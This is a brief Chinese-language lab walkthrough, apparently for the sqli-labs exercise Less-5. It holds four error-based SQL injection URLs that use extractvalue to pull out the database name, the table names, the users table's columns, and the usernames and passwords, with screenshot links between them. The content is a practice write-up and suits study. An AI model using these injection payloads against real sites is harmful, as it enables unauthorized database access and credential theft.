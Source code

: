 ```sql
#获取数据库名
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a))--+
```

![image-20241007021231118](./assets/image-20241007021231118.png)

```sql
#获取表名
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))--+
```

![image-20241007021703494](./assets/image-20241007021703494.png)

```sql
#获取users表的字段
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"),0x3a))--+
```

![image-20241007021933371](./assets/image-20241007021933371.png)

```sql
#获取数据(这儿数据没法显示完整)
http://8.137.60.154:8082/Less-5/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(id,username,password) from security.users),0x3a))--+
```
